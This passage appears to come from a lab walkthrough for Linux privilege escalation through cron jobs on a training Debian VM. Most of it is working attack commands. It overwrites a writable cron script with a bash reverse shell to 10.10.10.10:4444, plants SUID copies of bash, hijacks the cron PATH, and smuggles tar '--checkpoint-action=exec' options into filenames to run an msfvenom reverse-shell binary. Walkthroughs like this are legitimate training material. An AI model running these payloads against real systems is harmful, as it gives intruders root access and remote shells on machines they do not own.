 ````
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
````
- Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.
````
nc -nvlp 4444
````
#### Cron Jobs File permissions Method 2
````
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
````
- Wait the defined period of time
````
/tmp/bash -p
id
````
### Cron Jobs Path Environment Variable
- View the contents of the system-wide crontab:
````
cat /etc/crontab
````
- Note that the PATH variable starts with /home/user which is our user's home directory.
- Create a file called overwrite.sh in your home directory with the following contents:
````
#!/bin/bash
 
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
````
- Make sure that the file is executable:
````
chmod +x /home/user/overwrite.sh
````
- Wait for the cron job to run. Run the `/tmp/rootbash` command with `-p` to gain a shell running with root privileges:
````
/tmp/rootbash -p
````
### CronJobs - Wildcards
- View the contents of the other cron job script:
````
cat /usr/local/bin/compress.sh
````
- Note that the tar command is being run with a wildcard (*) in your home directory.
- Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.
- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
````
- Transfer the shell.elf file to /home/user/ on the Debian VM.
````
chmod +x /home/user/shell.elf
````
- Create these two files in /home/user:
````
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
````
- When the tar command in the cron job runs, the wildcard (*) will expand to include these files. 
- Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
- Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.